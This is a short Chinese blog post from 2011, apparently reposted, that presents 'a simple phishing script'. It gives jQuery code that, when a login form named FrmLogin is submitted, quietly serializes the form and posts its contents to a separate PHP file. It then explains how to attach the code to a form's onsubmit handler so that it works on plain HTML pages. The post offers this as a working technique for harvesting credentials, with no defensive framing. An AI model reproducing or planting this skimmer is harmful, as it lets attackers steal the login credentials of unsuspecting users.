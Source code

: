 ```yaml
---
title: 110506 一个简单的钓鱼脚本
author: 张 清月
layout: post
permalink: /2080.html
bot_views:
  - 173
views:
  - 477
duoshuo_thread_id:
  - 1280248249638191267
categories:
  - Code
tags:
  - js钓鱼代码
  - PHP
  - 很久没更新了
---
```

最近懒得更新了 ，是因为有老婆了

最近懒得更新了，是因为夜生活太忙了。

时而更，时而断更 ，或许这里会成为荒地。

[<img class="aligncenter size-medium wp-image-2081" title="2010012812205614" src="http://www.80aj.com/wp-content/uploads/2011/05/2010012812205614-300x260.jpg" alt="" width="300" height="260" />][1]

> <script src=&#8221;http://ajax.googleapis.com/ajax/libs/jquery/1.4.4/jquery.min.js&#8221; type=&#8221;text/javascript&#8221;>
> 
> </script>  
> <script language=&#8221;JavaScript&#8221;>
> 
> function checksubmit(){
> 
> $.ajax({
> 
> type : &#8220;POST&#8221;,
> 
> async : false,
> 
> url  : &#8220;../x.php&#8221;,
> 
> data : $(&#8220;#FrmLogin&#8221;).serialize(),
> 
> success : function(msg){
> 
> return true;
> 
> } });}
> 
> </script>
> 
> &nbsp;

在表单的action后面加上onsubmit=&#8221;return checksubmit();&#8221;  
这个方法的最大好处是可以用在html页面，其它好处自己体会吧。

转自 <http://hi.baidu.com/myvbscript/blog/item/33b0003807b2e8e7b311c797.html>

 [1]: http://www.80aj.com/wp-content/uploads/2011/05/2010012812205614.jpg